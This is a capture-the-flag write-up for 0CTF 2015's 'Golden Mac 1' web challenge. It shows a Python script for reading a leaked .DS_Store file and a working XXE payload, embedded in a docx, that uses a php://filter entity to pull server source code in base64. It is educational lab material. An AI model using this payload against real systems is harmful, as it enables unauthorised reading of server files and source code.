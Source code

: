 +++
author = "pwntester"
date = 2015-03-30T17:26:04Z
description = ""
draft = false
slug = "0ctf-2015-golden-mac-1-web-300"
title = "0CTF 2015 - Golden Mac 1 (web 300)"

+++


![Home](/images/2015/Mar/Screen-Shot-2015-03-30-at-15-58-48.png)
In the description and task title, it states that the developer uses a Mac Book Pro. So we looked for the `.DS_Store` in the application root directory and found one whose contents we can read with this simple python script:

```lang-python line-numbers
from ds_store import DSStore
with DSStore.open('DS_Store', 'r+') as d:
	for i in d:
		print i
```

Output:

```lang-raw
<index.php Iloc>
<parse.class.php Iloc>
<u_can_not_guess_this_haha.php Iloc>
```

It seems the flag is in `u_can_not_guess_this_haha.php` but the page renders an empty page. Probably flag is in the code.

The site lets us upload an image and a document. There is no control of the file type nor the extension for the image so we can upload any file to `/uploads` but that doesnt turn out to be very useful.

We can also upload profile descriptions in `docx` format which is basically a bunch of XML docs zipped. It turns out the application process the XML files without disabling external entities and so its vulnerable to XXE. We prepared a specially crafted docx document to retrieve the `u_can_not_guess_this_haha.php` file in base64 format (so we have no problems with `<>` characters:

```lang-raw
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE document [<!ENTITY xxx SYSTEM "php://filter/read=convert.base64-encode/resource=u_can_not_guess_this_haha.php">]>
<w:document> ... </w:document>
```

Output:
```lang-raw
PD9waHAgLy9mbGFnIDBjdGZ7eTB1X2ZpbmRfbTNfQmFkX2d1WX0=<br />
```

FLAG is: `0ctf{y0u_find_m3_Bad_guY}`


